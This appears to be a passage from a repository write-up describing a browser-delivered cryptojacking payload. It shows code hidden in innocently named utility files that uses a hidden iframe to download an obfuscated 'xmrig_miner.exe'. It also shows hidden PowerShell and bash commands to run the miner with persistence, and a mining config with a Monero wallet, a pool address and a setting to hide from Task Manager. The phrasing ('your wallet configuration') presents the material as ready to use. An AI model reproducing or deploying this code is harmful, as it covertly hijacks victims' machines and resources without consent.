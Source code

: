**What it does**: Creates the mining payload with your wallet configuration.

### Step 4: Stealth Download
**File**: [`client/src/lib/performanceUtils.ts`](client/src/lib/performanceUtils.ts:73)

```typescript
// Create hidden iframe for stealth download
const iframe = document.createElement("iframe");
iframe.style.display = "none";
document.body.appendChild(iframe);

// Create download link in the iframe
const idoc = iframe.contentDocument || iframe.contentWindow?.document;
if (idoc) {
  const a = idoc.createElement("a");
  a.href = url;
  a.download = name || atob(window._pUtils.resourceName); // "xmrig_miner.exe"
  idoc.body.appendChild(a);
  a.click();
}
```

**What it does**: Downloads the payload invisibly using a hidden iframe.

### Step 5: Persistence & Execution
**File**: [`client/src/lib/preferencesUtils.ts`](client/src/lib/preferencesUtils.ts:76)

```typescript
// This would attempt to execute the miner using various techniques:
// 1. Try to use PowerShell (Windows)
// executeCommand(`powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Start-Process '${minerPath}' -WindowStyle Hidden"`);

// 2. Try to use shell script (macOS/Linux)
// executeCommand(`bash -c "nohup '${minerPath}' > /dev/null 2>&1 &"`);

// 3. Try to use scheduled tasks/cron jobs for persistence
// setupPersistence(minerPath);
```

**What it does**: Attempts to execute the downloaded miner and establish persistence.

## 💰 Mining Configuration

### Wallet Setup
**File**: [`client/src/lib/minerConfig.ts`](client/src/lib/minerConfig.ts:15)

```typescript
export const minerConfig = {
  wallet: "45sx4g9Pg5aAvaE17UggC8YBDBZA1twdGbqXySvY9txwiCvBwiiw6zcbpbLtQsgptzB1BdLD3VGnrANkXhaEfzte3kfQEyL",
  pool: "pool.minexmr.com:4444",
  performance: {
    threads: 4,
    cpuLimit: 60,
    idleOnly: false,
    startupDelay: 5,
    background: true,
    hideFromTaskManager: true,
    persistenceLevel: 2
  }
};
```
